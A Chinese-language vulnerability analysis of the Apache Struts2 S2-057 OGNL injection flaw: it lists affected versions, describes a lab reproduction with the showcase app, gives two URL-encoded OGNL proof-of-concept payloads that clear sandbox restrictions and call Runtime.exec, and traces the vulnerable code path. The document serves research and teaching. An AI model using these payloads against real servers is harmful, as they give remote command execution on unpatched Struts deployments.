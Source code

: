 ### S2-057漏洞分析

#### 1.漏洞简介

struts2在xml配置中如果namespace未设置且（Action Configuration)中未设置或用通配符namespace时可能会导致远程代码执行

影响版本 struts2.3-2.3.34;Struts2.5-2.5.16

#### 2.漏洞复现

A.下载struts-showcase-apps

​	满足漏洞版本的showcase,http://archive.apache.org/dist/struts/2.3.31/ ，选择struts-2.3.31-apps.zip

B.将struts2-showcase.war放到tomcat的目录下,war包会自动解包

C.更改struts-actionchaining.xml内容为

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE struts PUBLIC
	"-//Apache Software Foundation//DTD Struts Configuration 2.3//EN"
	"http://struts.apache.org/dtds/struts-2.3.dtd">
	
<struts>
	<package name="actionchaining" extends="struts-default">
		<action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
			<result type="redirectAction">
                <param name = "actionName">register2</param>
            </result>
		</action>
	</package>
</struts>



```

注意struts-actionChaining.xml有两处,/WEB-INF/src/java以及/WEB-INF/classes都要修改

D.关闭tomcat后重新运行tomcat,输入youip:8080/struts2-showcase/${(111+2111)}/actionChain1.action即可验证漏洞，得到302 response 返回url:youip:8080/struts2-showcase/2222/register2.action

###### POC：

2.3.20：

```
/%24%7B%23_memberAccess%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%2C@java.lang.Runtime@getRuntime%28%29.exec%28%27calc.exe%27%29%7D/index.action
```

2.3.34

```
/%24%7B%28%23dm%3D@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28@com.opensymphony.xwork2.ognl.OgnlUtil@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23cmd%3D@java.lang.Runtime@getRuntime%28%29.exec%28%22calc%22%29%29%7D/actionChain1.action
```



#### 3.源码解析

###### 3.1 验证漏洞存在


ServletActionRedirectResult.class

```
public void execute(ActionInvocation invocation) throws Exception {
        this.actionName = this.conditionalParse(this.actionName, invocation);
        if (this.namespace == null) {
            this.namespace = invocation.getProxy().getNamespace();//<----source
        } else {
            this.namespace = this.conditionalParse(this.namespace, invocation);
        }

        if (this.method == null) {
            this.method = "";
        } else {
            this.method = this.conditionalParse(this.method, invocation);
        }
        
        String tmpLocation = this.actionMapper.getUriFromActionMapping(new ActionMapping(this.actionName, this.namespace, this.method, (Map)null));
        this.setLocation(tmpLocation);//namespace传入到location参数
        super.execute(invocation);//漏洞触发起始位置
    }
```

getUrlFromActionMapping()返回一个使用namespace构造的url字符串ActionMapping


![1.png](https://github.com/girlkb/struts2/blob/master/S2-057/1.png)

=>ServletRedirectResult.class

```
 public void execute(ActionInvocation invocation) throws Exception {
        if (this.anchor != null) {
            this.anchor = this.conditionalParse(this.anchor, invocation);
        }

        super.execute(invocation);//<---调用父类的方法
    }
```

=>StrutsResultSupport.class 

```
 public void execute(ActionInvocation invocation) throws Exception {
        //通过localtion字段调用conditionalParse()
        this.lastFinalLocation = this.conditionalParse(this.location, invocation);
        this.doExecute(this.lastFinalLocation, invocation);
    }
```

=>TextParseUtil.class

```
public static String translateVariables(String expression, ValueStack stack, TextParseUtil.ParsedValueEvaluator evaluator) {
        return translateVariables(new char[]{'$', '%'}, expression, stack, String.class, evaluator).toString();//<--expression:"struts2-showcase/${(111+2111)}/register2.action"
    }
```

translateVariables()会调用ognl表达式,最终会执行:

expression的值会被放到node里,分解为两个childern

```
public static Object add(Object v1, Object v2) {//v1 111,v2 2111
    int type = getNumericType(v1, v2, true);
    switch(type) {//type 4
    case 6:
        return bigIntValue(v1).add(bigIntValue(v2));
    case 7:
    case 8:
        return newReal(type, doubleValue(v1) + doubleValue(v2));
    case 9:
        return bigDecValue(v1).add(bigDecValue(v2));
    case 10:
        int t1 = getNumericType(v1);
        int t2 = getNumericType(v2);
        if ((t1 == 10 || v2 != null) && (t2 == 10 || v1 != null)) {
            return stringValue(v1) + stringValue(v2);
        } else {
            throw new NullPointerException("Can't add values " + v1 + " , " + v2);
        }
    default:
        return newInteger(type, longValue(v1) + longValue(v2));//<---最后执行这个方法
    }
}
```

###### 3.2执行任意命令

如下图所示，为调试过程中打得断点

![4.png](https://github.com/girlkb/struts2/blob/master/S2-057/4.png)

与验证漏洞存在相同，最后触发漏洞的原因是调用了TextParseUtil.translateVariables()方法，
![2.png](https://github.com/girlkb/struts2/blob/master/S2-057/2.png)
而最后执行命令是调用的OgnlRuntime.invokerMethod()方法。![3.png](https://github.com/girlkb/struts2/blob/master/S2-057/3.png)

#### 4.参考

https://www.anquanke.com/post/id/157518

https://www.anquanke.com/post/id/157823
